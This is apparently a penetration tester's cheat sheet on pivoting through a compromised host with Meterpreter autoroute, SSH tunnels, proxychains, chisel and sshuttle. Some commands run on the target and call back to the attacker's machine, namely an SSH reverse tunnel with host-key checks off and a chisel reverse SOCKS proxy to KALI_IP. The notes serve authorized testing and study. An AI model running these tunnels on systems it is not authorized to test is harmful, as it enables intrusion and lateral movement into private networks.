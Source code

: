 # SSH Tunnel

NOTE: needs valid SSH creds on box to pivot from.

## meterpreter

```bash
run autoroute -s IP/CIDR
run autoroute -p
[OR]
use post/multi/manage/autoroute
```

## using ssh:

### Forward tunnel (outgoing)

```bash
ssh user@IP -D PORT
# this sets up a tunnel between localhost:TUNNEL-PORT and target
# any requests to localhost:TUNNEL-PORT is routed via target
```

### Reverse tunnel (incoming)

#### authorized_keys file

```bash
from="IP",command="echo 'This account can only be used for Port Forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty <SSH-PUBLIC-key>
```

#### Command

```bash
# for allowing a connecting to your port from outside (incoming)
ssh -fN -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -R PORT -i <id_rsa> KALI-USER@KALI-IP

# -N: not running commands
# -f: go to background
# UserKnownHostsFile=/dev/null & StrictHostKeyChecking=no will not ask kali password; not safe to enter password on target.
```

## Proxychains

### /etc/proxychains4.conf

```bash
# add line for socks4/5 proxy 
[socks4|socks5] 127.0.0.1 6900

# comment out proxy_dns to avoid nmap hanging
```

Now, run any command using `$ proxychains4 [command]`

### proxychains4 for browser

Set up a foxyproxy configuration for browser:

1. Title: proxychains
2. Proxy Type: SOCKS4
3. Proxy IP: localhost
4. Port: 6900

## chisel

### Reverse Proxy

NOTE: configure proxychains using `socks5 IP PORT`.

```bash
# server on kali
chisel server -p 8000 --reverse

# on target
# tunnel using chisel on kali:1080
chisel client KALI_IP:8000 R:socks
```

### Forward Proxy

```bash
# server on target
chisel server -p 8000 --socks5

# on kali
chisel client TARGET_IP:8000 TUNNEL_PORT:socks
```

## sshuttle

* **REQUIREMENTS:**
    * Works only on linux targets
    * SSH access to target
    * Python on target (static binary works)

```bash
sshuttle -r USER@TARGET_IP [SUBNET/CIDR | -N] [--ssh-cmd "ssh -i KEY"] -x TARGET_IP
# -N: auto identify based on targers routing table
# -x: used to exclude current box from forward all subnet traffic
```